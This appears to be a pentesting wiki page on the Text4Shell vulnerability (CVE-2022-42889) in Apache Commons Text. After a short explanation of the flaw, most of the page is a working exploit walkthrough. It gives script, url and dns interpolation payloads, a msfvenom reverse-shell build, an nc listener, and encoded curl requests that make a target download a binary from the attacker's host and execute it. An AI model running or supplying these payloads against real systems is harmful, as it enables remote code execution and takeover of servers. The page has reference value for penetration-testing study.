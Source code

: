 ```yaml
---
description: CVE-2022-42889 - Text4Shell
---
```


# Apache Commons Text

## Theory

Apache Commons Text is a set of utility functions and reusable components for the purpose of processing and manipulating text that should be of use in a Java environment.

## CVE-2022-42889 - Text4Shell

The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.

While this specific code fragment is unlikely to exist in production applications, the concern is that in some applications, the `pocstring` variable may be attacker-controlled. In this sense, the vulnerability echoes Log4Shell. However, the StringSubstitutor interpolator is considerably less widely used than the vulnerable string substitution in Log4j and the nature of such an interpolator means that getting crafted input to the vulnerable object is less likely than merely interacting with such a crafted string as in Log4Shell.

{% tabs %}
{% tab title="Exploit" %}
In order to reproduce the attack, a vulnerable component using apache common text needs to be run.

{% hint style="info" %}
The conditions required for Text4Shell are:

* The application is using Apache Commons Text, version 1.5 through 1.9 inclusive
* The application imports **org.apache.commons.text.StringSubstitutorand** uses one of the following default interpolators with the default configuration
  * **dns**
  * **script**
  * **url**
{% endhint %}

The following payload can be used to exploit the vulnerability.&#x20;

```bash
# Using script
${script:javascript:java.lang.Runtime.getRuntime().exec('COMMAND')}

# Using url
${url:UTF-8:java.lang.Runtime.getRuntime().exec('COMMAND')}

# Using dns
${dns:address:java.lang.Runtime.getRuntime().exec('COMMAND')}
```

#### Manual exploit

If you identify a vulnerable parameter on a web server where the StringSubstitutor class from Commons Text is implemented (in this case, the "search" parameter), you can obtain a reverse shell as follows:

First create a reverseshell file using Msfvenom, and start a webserver

```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ATTACKING_IP>LPORT=<ATTACKING_PORT> -f elf -o rev
$ python -m http.server 80
```

Start a listener

```bash
$ rlwrap nc -lvnp <ATTACKING_PORT>
```

Finally, exploit the Text4Shell vulnerability. Although this example uses the "script" payload, you can choose a different one if needed. Make sure the request is URL encoded.

```bash
#Download payload to temp dir
curl --path-as-is "http://<TARGET_WEBSITE>/?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec('curl%20<ATTACKING_IP>/rev%20-o%20%2ftmp%2frev')%7d"

#Make it executable
curl --path-as-is "http://<TARGET_WEBSITE>/?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec('chmod%20%2bx%20%2ftmp%2frev')%7d"

#Execute
curl --path-as-is "http://<TARGET_WEBSITE>/?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec('%2ftmp%2frev')%7d"
```

We should get a shell.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.logpoint.com/en/blog/text4shell-detecting-exploitation-of-cve-2022-42889/" %}

{% embed url="https://github.com/kljunowsky/CVE-2022-42889-text4shell" %}
